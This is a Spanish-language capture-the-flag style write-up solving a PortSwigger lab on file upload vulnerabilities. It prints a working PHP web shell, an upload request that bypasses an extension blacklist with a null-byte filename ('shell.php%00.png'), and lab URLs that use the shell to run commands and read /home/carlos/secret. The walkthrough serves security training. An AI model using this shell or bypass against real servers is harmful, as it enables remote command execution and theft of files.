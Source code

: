 ```yaml
---
title: File Upload Vulnerabilities Lab 5
date: 2024-11-25 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via obfuscated file extension
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-5/Portswigger.png
---
```


## Skills

- Web shell upload via obfuscated file extension

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser `eludida` usando una `clásica técnica` de `ofuscación`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite, el payload va a ser `shell.php%00.png`, las versiones de php inferiores a la 5.4 son vulnerables a null byte injection `%00`, lo que hace que ignore lo que hay detrás de él y no se interprete

```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.png"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Vemos que el archivo php se ha subido correctamente y que seha subido con el nombre shell.php ignorando lo que hay detrás del null byte `%00`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_6.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_7.png)

Si accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php%00.png?cmd=whoami` vemos que nos da un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_8.png)

Sin embargo, sin accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que nos ejecuta el comando

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_10.png)

Obtenemos el contenido del archivo secret `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_12.png)
